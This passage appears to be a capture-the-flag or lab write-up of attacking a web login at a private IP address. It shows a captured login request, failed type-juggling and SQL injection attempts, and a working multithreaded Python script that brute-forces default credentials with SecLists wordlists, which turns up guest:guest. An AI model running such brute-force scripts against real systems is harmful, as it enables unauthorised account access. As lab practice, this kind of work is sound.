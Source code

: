```
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://172.16.5.90
Connection: keep-alive
Referer: http://172.16.5.90/
Cookie: PHPSESSID=hj59tek1le91eot9i0j4gh9icp
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=teste&password=teste
```
<br>
Here, I tried modifying the parameters `username` and `password` to create a vector: `username[]` and `password[]`, but I didn’t succeed. Refs: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md), [PHP Type Juggling Vulnerability](https://medium.com/@abdelrahman0x01/php-type-juggling-vulnerability-768bca4d8b3b) and [PHP Magic Tricks: Type Juggling](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20loose%20comparison%20-%20Type%20Juggling%20-%20OWASP.pdf).
<br>
I tried SQL Injection using `ghauri` and `sqlmap`, but the application wasn't vulnerable to SQLi.
<br>
The other thing I tried was a brute force attack to check if there were default credentials on the web application. I wrote a `python script` to do this. I used the following wordlists: for usernames, [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt), and for passwords, [default-passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.txt), both from the SecLists repo.
```python
import requests
from concurrent.futures import ThreadPoolExecutor

user_file = '/usr/share/seclists/Usernames/top-usernames-shortlist.txt'
pass_file = '/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt'
url = 'http://172.16.5.90'

def attempt_login(user, passwd):
    response = requests.post(url, data={'username': user, 'password': passwd})
    if (len(response.text) != 6773) and (len(response.text) != 6905):
        print(f'User {user} and password {passwd} is correct')

def main():
    users = [line.strip() for line in open(user_file, 'r')]
    passwords = [line.strip() for line in open(pass_file, 'r')]

    with ThreadPoolExecutor(max_workers=1000) as executor:
        for user in users:
            for passwd in passwords:
                executor.submit(attempt_login, user, passwd)

if __name__ == '__main__':
    main()
```
<br>
So, we found the default credentials: `guest:guest`. After logging in, we encountered the following page, which did not have any modules or functions to explore.